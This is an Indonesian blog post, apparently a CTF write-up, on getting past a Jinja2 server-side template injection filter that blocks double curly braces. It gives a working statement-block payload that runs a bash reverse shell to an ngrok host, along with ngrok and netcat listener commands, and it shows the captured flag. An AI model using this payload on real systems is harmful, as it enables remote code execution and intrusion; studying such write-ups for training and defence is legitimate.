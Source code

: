 ```yaml
---
layout: page
title: "Server-Side Template Injection (SSTI) - Jinja2"
categories: CTF
---
```

<div class="post-categories">
  {% if post %}
    {% assign categories = post.categories %}
  {% else %}
    {% assign categories = page.categories %}
  {% endif %}
  <strong>Categories: </strong>
  {% for category in categories %}
  <a href="{{site.baseurl}}/categories/#{{category|slugize}}">{{category}}</a>
  {% unless forloop.last %}&nbsp;{% endunless %}
  {% endfor %}
</div>

Pada artikel ini, saya akan membagikan cara untuk bypass filtered input SSTI Jinja2 dengan requirements:
- Memungkinkan SSTI
- Double curly brackets atau dobel kurung kurawal \{\{ di filter

Jadi yang pertama kali saya lakukan, masuk ke halaman web yang memungkinkan untuk kita melakukan SSTI
![](/assets/img/Screenshot 2022-10-24 233937.png)

Selanjutnya gunakan payload berikut ini
```
{% raw %}
{% if(config.class.init.globals['os'].popen('bash -c "exec bash -i &>/dev/tcp/{ip_public}/port <&1"')) %}{% endif %}
{% endraw %}
```

Jadi, pada payload diatas, kita akan mengirimkan request yang bertujuan untuk mengirim shell target ke shell kita melalui ip public pada `/dev/tcp/{ip_public}/{port}`

Nah, jadi kalian bisa mengganti `{ip_public} ` dan `{port}` dengan service forward port gratis seperti netlify, ngrok, dan lainya.<br />

Jika kalian menggunakan ngrok, bisa gunakan perintah ini `ngrok tcp {listening_port}`
![](/assets/img/Screenshot 2022-10-25 001613.png)
<br /> `{listening_port}` akan kita gunakan untuk mendapatkan shell yang dikirim melalui domain dan port yang didapatkan dari ngrok, jangan lupa untuk gunakan perintah `nc -tlvp {listening_port}` untuk mendapatkan shell target. <br />

Berdasarkan gambar diatas, maka payload yang harus dimasukkan adalah
```
{% raw %}
{% if(config.class.init.globals['os'].popen('bash -c "exec bash -i &>/dev/tcp/0.tcp.ap.ngrok.io/18104 <&1"')) %}{% endif %}
{% endraw %}
```
![](/assets/img/Screenshot 2022-10-25 004110.png)

Dan didapatlah flagnya `BEECTF{3s_3s_t1_a1_Gg3Z_h3h3_g12l2bi30l}`
